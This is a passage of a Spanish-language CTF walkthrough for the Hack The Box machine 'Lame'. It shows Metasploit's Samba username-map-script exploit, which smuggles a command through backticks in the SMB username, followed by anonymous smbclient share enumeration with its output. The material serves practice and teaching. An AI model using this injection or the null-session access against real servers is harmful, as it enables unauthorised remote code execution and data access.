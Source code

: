 ```java
    def exploit
        connect
        # lol?
        username = "/=`" + payload.encoded + "`"
        begin
            simple.client.negotiate(false)
            simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
        rescue ::Timeout::Error, XCEPT::LoginError
            # nothing, it either worked or it didn't ;)
        end
        handler
    end
end
```
Cuando se listaron los recursos compartidos se encontro una carpeta /tmp, por lo que, se puede utilizar para conectarse mediante null sesion usando smbcliente

### Scanear Recursos Compartidos smbclient

Se puede listar `flag -L`los recusros compartidos con  al herramienta smclient, usando el usuario anonymous o null session, `smbclient -L 10.10.10.3 -N` en caso de presentar error `NT-STATUS_CONNECTION_DISCONENECTED`, ese error puede se puede solucionar agregando el parametro `--options` como esta acontinuación.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/Lame/nmap]
└─# smbclient -L 10.10.10.3 -N --option 'client min protocol = NT1'
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME
```
Cuando se encuantra recursos compartidos con accesos mediante null session, se puede autenticar a la carpeta, cona al herramienta `smbclient`.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/Lame/nmap]
└─# smbclient //10.10.10.3/tmp -N                                     
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Jan 24 12:25:55 2023
  ..                                 DR        0  Sat Oct 31 02:33:58 2020
  .ICE-unix                          DH        0  Tue Jan 24 10:55:30 2023
  vmware-root                        DR        0  Tue Jan 24 10:55:58 2023
  .X11-unix                          DH        0  Tue Jan 24 10:55:55 2023
  .X0-lock                           HR       11  Tue Jan 24 10:55:55 2023
  5563.jsvc_up                        R        0  Tue Jan 24 10:56:32 2023
  vgauthsvclog.txt.0                  R     1600  Tue Jan 24 10:55:28 2023

                7282168 blocks of size 1024. 5386540 blocks available
```